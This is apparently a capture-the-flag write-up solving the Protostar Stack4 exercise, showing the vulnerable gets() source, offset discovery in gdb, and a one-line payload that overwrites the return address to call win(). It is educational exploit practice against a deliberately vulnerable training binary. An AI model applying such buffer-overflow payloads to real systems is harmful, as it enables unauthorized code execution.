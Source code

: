 ```yaml
---
title: Protostar - Stack4
description: My writeup on stack4 challenge.
categories:
 - binary exploitation
tags: binary exploitation, protostar
---
```


You can find the protostar there > [Protostar](https://exploit-exercises.lains.space/protostar/){:target="_blank"}

Let's check the source code :

```bash
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We have a function `win`, a variable `buffer` with 64bytes buffer and the vulnerable function `gets`

`gets` ->  doesn’t check while getting bytes.

Let's run the binary.

```bash
user@protostar:/opt/protostar/bin$ ./stack4
pwn 
```

It takes an input, let's check it is vulnerable.

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 100' | ./stack4
Segmentation fault
```

Now let's find the offset.

```bash
$ ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:/opt/protostar/bin$ gdb -q ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 

$ ./pattern_offset.rb -q 0x63413563
[*] Exact match at offset 76
```

Perfect, now let's find the address of `win` function.

```bash
user@protostar:/opt/protostar/bin$ objdump -d ./stack4 | grep win
080483f4 <win>:
```

Let's make the exploit now.

```python
>>> from pwn import *
>>> p32(0x080483f4)
b'\xf4\x83\x04\x08'
```

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
````
